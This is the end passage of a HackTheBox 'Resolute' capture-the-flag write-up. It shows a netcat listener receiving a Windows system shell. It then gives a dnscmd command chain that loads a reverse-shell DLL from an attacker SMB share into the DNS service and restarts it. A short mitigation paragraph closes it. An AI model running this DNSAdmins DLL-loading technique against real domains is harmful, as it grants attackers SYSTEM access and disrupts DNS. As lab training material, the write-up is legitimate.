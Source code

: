 ```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute/tmp]
└─# nc -nvlp 4444                                                                                                                         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:59271.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

## Afterthoughts

Overall, this box is pretty simple since most of the steps lined up. The enumeration for the PowerShell transcript took some time for me personally since I didn't know how to search for hidden files. Additionally, the DNSAdmins group Privilege Escalation only worked (in this scenario) because we had the privilege to restart the service, which isn't enabled by default. Overall, I enjoyed this box a lot, and while its rather basic, I believe that's what makes it solid for learning Windows and Active Directory.

## Bonus

After doing some extra digging on some articles related to the Privilege Escalation, I found some interesting information. First of all, because our dll was generated and coded for the sole purpose of creating a reverse shell, it actually destroys the DNS service because, due to our dll, the DNS service never finishes starting up. The note left on ryan's desktop talking about how the box resets itself actually fixes this. Therefore, in some actual real world environment, this would not be a good way to go about things as crashing company infrastructure is a bad thing. However, with some coding knowledge (that I lack), it is possible to implement threading into the dll and make DNS function normally while also loading the reverse shell.

Another thing I ran into is that, while by default the DNSAdmins group does not have privileges to restart the DNS service as it did in this box using sc.exe (Service Control), this isn't necessary to accomplish this type of attack. The dnscmd executable itself can restart the DNS service, and the DNSAdmins group can use the executable this way by default. Therefore, another set of chained commands that could be used on the box are:

```
*Evil-WinRM* PS C:\> cmd /c "dnscmd RESOLUTE.MEGABANK.LOCAL /config /serverlevelplugindll \\10.10.16.6\\share\bruh.dll && dnscmd RESOLUTE.MEGABANK.LOCAL /Restart"

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

RESOLUTE.MEGABANK.LOCAL completed successfully.
Command completed successfully.
```

However, the attack vector is not limited to just the DNSAdmins group. Any group with some sort of write privilege on the DNS service object and with the capability to restart the DNS service can accomplish this attack vector. Aside from limiting the privileges of users and the DNSAdmins group, it is possible to also add some sort of check on the dll being configured to further mitigate the possibility of a dll injection occuring.

-Dylan Tran 12/5/2021

